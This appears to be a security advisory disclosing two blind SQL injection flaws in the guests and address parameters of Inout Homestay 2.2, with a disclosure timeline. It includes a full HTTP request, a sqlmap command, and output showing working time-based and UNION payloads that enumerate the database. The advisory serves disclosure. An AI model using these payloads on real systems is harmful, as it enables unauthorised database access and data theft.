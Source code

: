 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Homestay
Product             : Inout Homestay
version             : 2.2
Date                : 2022-05-22
Vendor Site         : https://www.inoutscripts.com/products/inout-homestay/
Exploit Detail      : https://github.com/bigb0x/CVEs/blob/main/Inout-Homestay-2-2-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Inout Homestay is a rental portal application, it suffers from two blind SQL injection. Both POST parameters "guests" and "address" are vulnerable.
exploiting this vulnerablity will allow remote non-authenticated attackers not only to break the SQL syntax, but it is also possible to utilise a UNION SELECT query to reflect sensitive information such as the current database version, database users and collect system info. This could result in full information disclosure.
<br>

## Vulnerable Parameters: guests and address (POST)

<br>

Vulnerability File: index.php

<br>

### HTTP Post Request
`
POST /index.php?page=search/rentals HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://inout-homestay.demo.inoutscripts.net/
Cookie: currencyid=10; currencycode=BYR; language=2; io_lang_code=es
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 189
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: inout-homestay.demo.inoutscripts.net
Connection: Keep-alive
address=3[inject_sql_here]&guests=-1[or_inject_sql_here]&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San%20Francisco&searchstate=NY
`
<br>
### Sqlmap command:
`
python sqlmap.py -r homestay.txt  -p guests --dbms=MySQL --banner --random-agent --current-db --dbs --current-user
`
<br>

### output:
`
Parameter: guests (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: address=3137 Laguna Street&guests=1' AND (SELECT 4341 FROM (SELECT(SLEEP(5)))uczv) AND 'bxOk'='bxOk&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: address=3137 Laguna Street&guests=1' UNION ALL SELECT NULL,NULL,CONCAT(0x717a6b7871,0x715266764977597043634c45437479454951476d57557270425449574466726644497a4b76734f77,0x7171767871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

[22:00:34] [INFO] testing MySQL
[22:00:34] [INFO] confirming MySQL
[22:00:43] [INFO] the back-end DBMS is MySQL
[22:00:43] [INFO] fetching banner
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.0
banner: '5.7.38-0ubuntu0.18.04.1'
[22:00:43] [INFO] fetching current user
current user: 'root@localhost'
[22:00:43] [INFO] fetching current database
current database: 'inout_homestay'
[22:00:43] [INFO] fetching database names
available databases [50]:

`
<br>
<img src="./resources/homestay-sqlmap1.png">
<br>
<img src="./resources/homestay-sqlmap2.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-22: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
